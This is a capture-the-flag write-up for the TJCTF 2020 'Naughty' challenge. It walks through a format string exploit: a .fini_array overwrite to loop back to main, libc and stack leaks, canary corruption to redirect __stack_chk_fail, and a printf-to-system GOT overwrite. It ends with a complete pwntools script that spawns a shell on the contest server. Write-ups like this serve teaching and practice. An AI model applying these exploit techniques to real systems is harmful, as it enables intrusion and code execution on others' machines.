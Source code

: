 # Naughty Writeup

Naughty was the final pwn in TJCTF 2020. It was an interesting and nice format string pwn problem. Let us begin by reversing it:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-10Ch]
  unsigned int v5; // [esp+100h] [ebp-Ch]
  int *v6; // [esp+104h] [ebp-8h]

  v6 = &argc;
  v5 = __readgsdword(0x14u);
  puts(
    "  _  _                     __ _   _        _       _  _                                     _  _      _                      ___   ");
  puts(
    " | \\| |   __ _    _  _    / _` | | |_     | |_    | || |    o O O   ___      _ _     o O O | \\| |    (_)     __   "
    "   ___    |__ \\  ");
  puts(
    " | .` |  / _` |  | +| |   \\__, | | ' \\    |  _|    \\_, |   o       / _ \\    | '_|   o      | .` |    | |    / _|"
    "    / -_)     /_/  ");
  puts(
    " |_|\\_|  \\__,_|   \\_,_|   |___/  |_||_|   _\\__|   _|__/   TS__[O]  \\___/   _|_|_   TS__[O] |_|\\_|   _|_|_   \\"
    "__|_   \\___|   _(_)_  ");
  puts(
    "_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_| \"\"\"\"| {======|_|\"\"\"\"\"|_|\""
    "\"\"\"\"| {======|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"|_|\"\"\"\"\"| ");
  puts(
    "\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'\"`-0-0-'./o--000'\"`-0-0-'\"`-0-0-'./o--000'\"`-0-0-'\"`-0-0-"
    "'\"`-0-0-'\"`-0-0-'\"`-0-0-' ");
  puts("What is your name?");
  fflush(stdout);
  fgets(&s, 256, stdin);
  printf("You are on the NAUGHTY LIST ");
  printf(&s);
  return 0;
}
```

As you can see, there is a clear format string bug in the last printf call. Taking a look at checksec:
```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
We can just do GOT overwrite to overwrite printf and gain code execution. However, the only issue is that nothing is called after printf; the program just finishes then. However, I did note the canary part of this, which can trigger another function known as `__stack_chk_fail` when the canary check fails. I also knew about the .fini section, which has its contents triggered during normal process termination. This part as well as .init are handled by the runtime linker.

To overwrite the canary, we will first need a stack leak, which is not possible at this stage (without causing the program to just terminate). Since their binary does not have PIE enabled, I decided to target the .fini section. At this point, I also found another similar writeup: https://wumb0.in/mmactf-2016-greeting.html related to overwriting contents of `.fini_array`. Just like that problem, I overwrote `__do_global_dtors_aux_fini_array_entry` in that section with `main`. This way, the program will then go back to main during the "termination" phase. The offset for the overwrites can be determined with the standard format string technique of sending in `ABCD %p %p %p...` and seeing where that first value reappears. The offsets for leaking libc and stack can be determined with the following basic script, from which I just dumped the output and took a quick look at possible libc and stack address values:
```py
from pwn import *

for i in range(500):
	p = process('./naughty')
	p.recvuntil('name?\n')
	p.sendline("%" + str(i) + "$p")
	print "index: " + str(i)
	print p.recvall()
```

Now, when we go back to main, we cannot just overwrite printf GOT with system and then expect main to return. Since .init and .fini are handled by the runtime linker, and all we did was make it call main upon termination, the correct setup to trigger the .fini sections is not done and the program will just finish after the second call to main finishes; we need to find another way to redirect back to main. I decided to target the canary now. With the stack leak, I can determine the offset to the canary. I overwrite that with a random value to trigger the canary failure function, which I also overwrote with main in the same format string. I also overwrote printf with system (whose address is determined from the libc leak) in the same payload at this point. Afterwards, it should loop back to main again. Now printf is system, so simply typing /bin/sh should pop shells.

A note about libc. The address I leaked is `_IO_2_1_stdin_`. Since my system libc is different from the docker libc, I needed to figure out the remote libc with libc database. But I also noticed in the previous dockers on this CTF, most if not all the libcs were the same, so I just made an assumption with that one, which actually turned out to be correct. Note that the stack setup ended up turning out different from my local and remote version, so I just patchelf'd the file with the correct libc and linker and re-debugged there. Here is my final exploit:
```py
from pwn import *

context(arch='i386')
bin = ELF('./naughty')
libc = ELF('libc-2.27.so')
p = remote('p1.tjctf.org', 8004)

p.recvuntil('name?\n')
write1 = {0x08049bac:bin.symbols['main']}
payload = fmtstr_payload(7, write1) + "pepega %2$p poggers %81$p" #pepega is my marker for libc, poggers is my marker for stack
print payload
p.sendline(payload)
p.recvuntil('pepega ')
leak = int(p.recv(10), 16)
libc.address = leak - libc.symbols['_IO_2_1_stdin_']
log.info("Leak: " + hex(leak))
log.info("Base: " + hex(libc.address))

p.recvuntil('poggers ')
canary = int(p.recv(10), 16) - 408 #offset from this stack leak to canary
log.info("Canary address: " + hex(canary))


write2 = {canary:0xdeadbeef, bin.got['__stack_chk_fail']:bin.symbols['main'], bin.got['printf']:libc.symbols['system']}
payload = fmtstr_payload(7, write2)
p.recvuntil('name?\n')
p.sendline(payload)
p.recvuntil('name?\n')
p.sendline("/bin/sh")
p.interactive()


```
Fun challenge overall!